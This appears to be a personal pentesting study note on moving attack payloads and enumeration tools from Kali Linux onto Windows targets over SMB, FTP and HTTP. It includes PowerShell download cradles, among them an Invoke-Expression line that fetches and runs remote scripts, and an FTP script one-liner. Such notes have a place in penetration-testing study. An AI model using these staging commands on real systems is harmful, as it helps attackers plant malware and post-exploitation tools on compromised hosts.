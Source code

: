 ```yaml
---
type: info
scope: []
aliases: ["uploading payloads"]
related: [
created: 13-03-2023 04:17
---
```

%%
related::
%%

#todo 

## Overview

Transferring files from Kali to Windows is important for uploading pentesting executables

- Payloads
	- [[Metasploit|Meterpreter]]
	- [[Empire]]
	- Reverse shells
- Executables
	- [[PowerSploit]]
	- [[WinPEAS]]
	- [[Tools/Bloodhound|Sharphound]]

## Methods

- Hosting Servers
	- [[#HTTP Server]]
	- [[#SMB Server]]
	- [[#FTP Server]]
- Others
	- SCP
	- Post-exploitation frameworks

### SMB Server
**Kali Linux - Starting SMB Server**
```bash
impacket-smbserver -username kali -password kali <shareName> <shareDir>

# current dir
impacket-smbserver -username kali -password kali KALI $(pwd)
```

**PowerShell**
```powershell
# PowerShell
$pass = convertto-securestring "kali" -asplaintext -force
$creds = new-object system.management.automation.pscredential('kali', $pass)
new-psdrive -name kali -psprovider filesystem -credential $creds -root \\10.10.14.26\KALI
cd kali:\\
```

### FTP Server
- All Windows come with `ftp.exe` client

**Kali Linux - Starting FTP Server**
```bash
python -m pip install pyftpdlib
python -m pyftpdlib -w -p 21
```

**PowerShell - Downloading File with FTP**
```powershell
# normal use
ftp <ip> # anonymous:*
...
get <file> # download
put <file> # uplaod

# one line (only cmd.exe, use cmd.exe in ps to launch)
# echo open <ip> >> ftp.txt
# &echo user anonymous pass >> ftp.txt
# &echo binary >> ftp.txt
# &echo get <file> >> ftp.txt
# &echo bye >> ftp.txt
# &ftp -s:ftp.txt
# &del ftp.txt

echo open <ip> >> ftp.txt &echo anonymous >> ftp.txt &echo password >> ftp.txt &echo binary >> ftp.txt &echo get <file> >> ftp.txt &echo bye >> ftp.txt &ftp -s:ftp.txt &del ftp.txt
```

### HTTP Server
- Use HTTP server to host static content
- Unlike SMB and FTP, doesn't allow transfer from target to attacker machine
- Http server
	- Windows : `Invoke-WebRequest` / `IEX`
	- `Invoke-WebRequest -Uri <URI> -OutFile <OUT_FILE>`
	- `python -m http.server 80`
- **Apache Server**
	- Kali installed default
	- More resources used
	- Upload file to `/var/wwww/html`
- **Python HTTP Server** (*preferred*)
	- `python -m http.server <port>`
	- Serves current directory

**Kali Linux - Starting HTTP Server**
```bash
# a. Python (preferred)
python -m http.server <PORT>
# serves current dir

# b. Apache
systemctl start apache2
# upload files to /var/www/html
```

**PowerShell - Retrieving HTTP File**
```powershell
# a. Download File
(New-Object System.Net.WebClient).DownloadFile(<URL>, <ABS_PATH_OUT>)

# b. Download File (PowerShell 3.0 and up)
wget <URL> -OutFile <OUT_FILE>
## Aliases: Invoke-WebRequest, wget, curl

# c. Execute File (only PowerShell scripts)
Invoke-Expression(New-Object System.Net.WebClient).DownloadString(<URL>)
## Aliases: Invoke-Expression, iex
```

### Post-exploitation Frameworks
- Examples
	- [[Metasploit|Meterpreter]]
	- [[Empire]]
- Usually have built-in payload transfer with shell session
	- However, if no shell session, need use the above methods
	- Hence, this is usually used for uploading executables

### Protocols
- SSH
- SCP

## References
- https://blog.ropnop.com/transferring-files-from-kali-to-windows/